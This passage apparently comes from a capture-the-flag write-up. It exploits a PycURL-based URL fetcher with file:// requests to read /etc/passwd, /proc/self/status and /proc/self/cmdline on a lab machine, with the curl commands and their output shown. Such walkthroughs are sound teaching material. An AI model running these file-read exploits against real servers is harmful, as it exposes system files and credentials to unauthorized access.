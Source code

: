 ```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=http://10.14.101.76/test.txt'  http://172.18.0.1:5000/
...
    <div>
        TEST

    </div>
...
```
{: .wrap }

Since it uses **PycURL**, which accepts `file://` as a valid protocol, we can use this to read files from the server and reading the `/etc/passwd` file reveals the `hansolo` user, in addition to `root`.

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=file:///etc/passwd'  http://172.18.0.1:5000/
...
<div>
  root:x:0:0:root:/root:/bin/bash
  ...
  hansolo:x:1000:1000::/home/hansolo:/bin/bash
</div>
...
```
{: .wrap }

Checking `/proc/self/status`, we can see the application running as the `hansolo` user.

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=file:///proc/self/status'  http://172.18.0.1:5000/
....
Uid:    1000    1000    1000    1000
Gid:    1000    1000    1000    1000
...
```
{: .wrap }

After trying to get some easy wins by attempting to read SSH keys, etc. yields no results, we can try to read the source code for the application to understand what it does. From `/proc/self/cmdline` we can get the path for it.

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=file:///proc/self/cmdline' http://172.18.0.1:5000/ -o-
...
<div>
    /usr/bin/python3/home/hansolo/app/app.py
</div>
...
```
{: .wrap }
